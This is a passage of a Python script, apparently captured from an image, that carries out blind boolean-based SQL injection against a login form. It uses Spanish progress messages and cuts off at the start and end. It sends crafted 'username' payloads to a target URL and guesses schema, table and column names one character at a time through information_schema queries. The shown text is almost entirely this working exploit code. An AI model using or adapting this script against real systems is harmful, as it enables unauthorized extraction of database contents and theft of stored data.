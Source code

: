 ```python
            p2.status(char)
            data = {"username" : f"test' or (select substring(group_concat(schema_name),{pos},1) from information_schema.schemata where schema_name != 'information_schema') = '{char}"}
            r = requests.post(URL, data=data)
            
            if FILTER in r.content.decode():
                info += char
                p1.status(info)
                break

def get_tables(database):
    global URL
    global FILTER
    characters = string.printable
    
    p1 = log.progress(f"Iniciando fuerza bruta para extraer las tablas de {database}")
    p1.status("")
    p2 = log.progress("Probando carácteres")
    info = ""

    for pos in range(1, 500):
        found = False
        for char in characters:
            p2.status(char)
            data = {"username" : f"test' or (select substring(group_concat(table_name),{pos},1) from information_schema.tables where table_schema = '{database}') = '{char}"}
            r = requests.post(URL, data=data)
            
            if FILTER in r.content.decode():
                info += char
                p1.status(info)
                break

def get_columns(database, table):
    global URL
    global FILTER
    characters = string.printable
    
    p1 = log.progress(f"Iniciando fuerza bruta para extraer las columnas de la tabla {database}.{table}")
    p1.status("")
    p2 = log.progress("Probando carácteres")
    info = ""

    for pos in range(1, 500):
        found = False
        for char in characters:
            p2.status(char)
            data = {"username" : f"test' or (select substring(group_concat(column_name),{pos},1) from information_schema.columns where table_schema = '{database}' and table_name = '{table}') = '{char}"}
            r = requests.post(URL, data=data)
            
            if FILTER in r.content.decode():
                info += char
                p1.status(info)
                break

def get_data(database, table, columns):
    global URL
    global FILTER
    characters = string.printable
    
```